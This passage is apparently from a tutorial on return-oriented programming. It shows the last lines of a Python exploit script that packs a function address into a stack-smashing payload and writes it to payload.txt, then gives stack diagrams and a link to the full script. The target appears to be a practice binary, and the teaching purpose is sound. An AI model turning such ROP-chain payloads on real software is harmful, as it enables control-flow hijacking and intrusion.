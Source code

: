     # inst5()'s address
    inst5_address = 0x000000000040055f
    # inst5()'s address in little-endian byte order
    # For 64-bit executables, 
    payload += struct.pack('<Q', inst5_address)

    # For 32-bit executables, 
    # payload += struct.pack('<I', inst5_address)
    ```

* Now, the stack looks like this. 

    ```
	| inst1()'s address | <----- rsp
    | inst2()'s address |
    | inst3()'s address |
    | inst4()'s address |
    | inst5()'s address |
	```

* Let us end the script by writing the payload into a file **payload.txt**. 

    ```python
    # Write the payload into a file - payload.txt
    fo = open("payload.txt", "wb")
    fo.write(payload)
    fo.close()
    ```

* You may download the exploit script [here](/assets/2019-03-30-return-oriented-programming-part2/exploit2.py).

### 2. Analysis of exploit

It might be a little confusing if you are doing chaining for the first time. That is why this Analysis. 

After injecting the payload, just before ```func()```'s **ret** is executed, the stack looks like this. 

    ```
	| inst1()'s address | <----- rsp
    | inst2()'s address |
    | inst3()'s address |
    | inst4()'s address |
    | inst5()'s address |
	```
